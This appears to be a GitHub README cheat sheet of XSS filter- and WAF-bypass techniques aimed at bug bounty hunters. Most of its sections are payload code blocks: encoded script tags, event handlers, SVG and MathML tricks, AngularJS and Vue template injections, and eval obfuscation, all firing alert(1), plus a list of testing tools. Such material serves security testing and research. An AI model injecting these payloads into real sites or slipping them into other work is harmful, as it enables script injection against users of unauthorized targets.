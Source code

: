 # Advanced Cross-Site Scripting (XSS) Bypass Techniques

> **Mastering Filters, WAFs, and Real-World Exploitation**

---

## 📘 Introduction

Cross-Site Scripting (XSS) remains one of the most prevalent and dangerous vulnerabilities in modern web applications. Despite improvements in input sanitization, CSP headers, and WAFs, attackers consistently find creative ways to bypass restrictions and execute scripts. This document presents a deep-dive into advanced XSS bypass techniques, grounded in real-world bug bounty cases and research.

---

## 🧭 Table of Contents

1. [Introduction](#-introduction)
2. [Types of XSS Filters](#-types-of-xss-filters)
3. [Encoding-Based Bypasses](#-encoding-based-bypasses)
4. [Event Handler & DOM Tricks](#-event-handler--dom-tricks)
5. [HTML5 Abuse & Weird Tags](#-html5-abuse--weird-tags)
6. [JavaScript Context Escapes](#-javascript-context-escapes)
7. [WAF Bypass Techniques](#-waf-bypass-techniques)
8. [Framework-Specific Payloads](#-framework-specific-payloads)
9. [CSP Misconfigurations](#-csp-misconfigurations)
10. [Advanced Obfuscation Techniques](#-advanced-obfuscation-techniques)
11. [Case Studies from Bug Bounties](#-case-studies-from-bug-bounties)
12. [Tools for Testing & Automation](#-tools-for-testing--automation)
13. [Payload Repository](#-payload-repository)
14. [Final Notes](#-final-notes)
15. [References](#-references)

---

## 🔐 Types of XSS Filters

* Input Filters (client-side / server-side)
* Output Filters (context-based)
* HTML Sanitizers (DOMPurify, xss-filters)
* WAFs (Cloudflare, Akamai, AWS WAF)

---

## 🧬 Encoding-Based Bypasses

```html
<script><script\x3Ealert(1)</script>
<svg/onload=&#x61;&#x6c;&#x65;&#x72;&#x74;(1)>
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>
```

---

## 🧠 Event Handler & DOM Tricks

```html
<div onpointerover="alert(1)">Hover me</div>
<input onfocus=alert(1) autofocus>
<a href="javascript:alert(1)">Click me</a>
```

---

## 🧪 HTML5 Abuse & Weird Tags

```html
<svg><script>alert(1)</script></svg>
<math><mi//xlink:href="javascript:alert(1)"></math>
<details open ontoggle=alert(1)>
```

---

## 🧩 JavaScript Context Escapes

```js
var data = "<input value='" + user + "'>";
// Payload: ' onfocus=alert(1) autofocus='

JSON.parse('{"user":"<img src=x onerror=alert(1)>"}')
```

---

## 🧱 WAF Bypass Techniques

* Double Encoding:

```html
<script%20%0a>alert(1)</script>
```

* Tag Confusion:

```html
<<script>script>alert(1)</script>
```

* Mixed Context Injection
* Non-Standard Quotes, Spaces, Comments

---

## ⚙️ Framework-Specific Payloads

### AngularJS

```html
{{constructor.constructor('alert(1)')()}}
```

### React

Escape JSX via `dangerouslySetInnerHTML`

### Vue.js

```html
{{['a'].pop().constructor('alert(1)')()}}
```

---

## 🛡️ CSP Misconfigurations

* Open `script-src` or `unsafe-inline`
* Trusted `data:` URIs
* Using `script` inside SVG or iframe

---

## 🌀 Advanced Obfuscation Techniques

```html
<script><!--alert(1)//--></script>
<script>eval("al"+"ert(1)")</script>
<svg><desc><![CDATA[<script>alert(1)</script>]]></desc></svg>
```

---

## 🧾 Case Studies from Bug Bounties

✔️ **Case #17 (2024)**: Bypassed client-side regex using `<svg><script xlink:href="data:text/javascript,alert(1)"></script>`
✔️ **Private Program (2025)**: AngularJS sandbox escape using `{{constructor.constructor('alert(1)')()}}`

---

## 🧪 Tools for Testing & Automation

* [XSStrike](https://github.com/s0md3v/XSStrike)
* [Dalfox](https://github.com/hahwul/dalfox)
* [BugHunter](https://github.com/erohack/bughunter) *(by EroHack)*
* Custom Payload Generators

---

## 💣 Payload Repository

```
payloads/
├── waf-bypass.txt
├── dom-based.txt
├── unicode-encodings.txt
├── framework-specific/
│   ├── angular.txt
│   ├── react.txt
│   └── vue.txt
└── csp-bypass.txt
```

---

## 🧾 Final Notes

* Always test across browsers.
* CSP headers are not always reliable.
* Validate both reflection and execution.
* Automate with caution — manual inspection is key.

---

## 🔗 References

* [OWASP XSS Cheat Sheet](https://owasp.org/www-community/xss)
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
* [PortSwigger XSS Bypasses](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
* [HackerOne Writeups](https://hackerone.com/hacktivity)

---

**Author:** [Shayan from EroHack](https://github.com/ERO-HACK)
**Telegram:** [Join Telegram](https://t.me/erohack0)
**License:** MIT
**Last Update:** July 2025
